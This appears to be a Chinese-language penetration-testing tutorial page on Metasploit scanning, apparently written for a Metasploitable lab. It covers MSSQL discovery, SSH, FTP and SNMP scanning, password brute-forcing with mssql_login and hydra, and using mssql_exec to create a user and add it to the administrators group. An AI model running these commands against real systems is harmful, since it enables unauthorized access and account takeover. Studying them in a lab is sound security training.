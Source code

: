 #### MSSQL 扫描

在大局域网中要比nmap扫描快得多

搜索mssql采用了一种叫做`UDP foot-printing`的方法：
TCP:1433为默认端口，如果端口随机分配，1434端口提供了服务监听信息
```shell
search mssql

use auxiliary/scanner/mssql/mssql_ping
set ...
run

use auxiliary/scanner/mssql/mssql_login # 暴力字典破解密码 或者：
hydra -l admin -P <dict> -t <threads> <serverip> mssql

use auxiliary/admin/mssql/mssql_exec # 执行命令
set CMD net user bacon <randompw> /ADD # 创建用户
run
set CMD net localgroup administrators bacon /ADD # 将该用户设为管理员
run
```

#### 服务扫描
ssh：
```
use auxiliary/scanner/ssh/ssh_version
set ...
run
```
ftp:
```
use auxiliary/scanner/ftp/ftp_version
run
```
ftp匿名登录：
```
use auxiliary/scanner/ftp/anonymous
run
```

#### SNMP扫描
SNMP Community String read-only / read-write
SNMP团体字符串

若能猜出这些Strings，就可以轻松获得很多目标信息

> **Note**: By default Metasploitable’s SNMP service only listens on localhost. Many of the examples demonstrated here will require you to change these default settings. Open and edit **/etc/default/snmpd**, and change the following from:
> 
> `SNMPDOPTS='-Lsd -Lf /dev/null -u snmp -I -smux -p /var/run/snmpd.pid 127.0.0.1'`
> to
> `SNMPDOPTS='-Lsd -Lf /dev/null -u snmp -I -smux -p /var/run/snmpd.pid 0.0.0.0'`
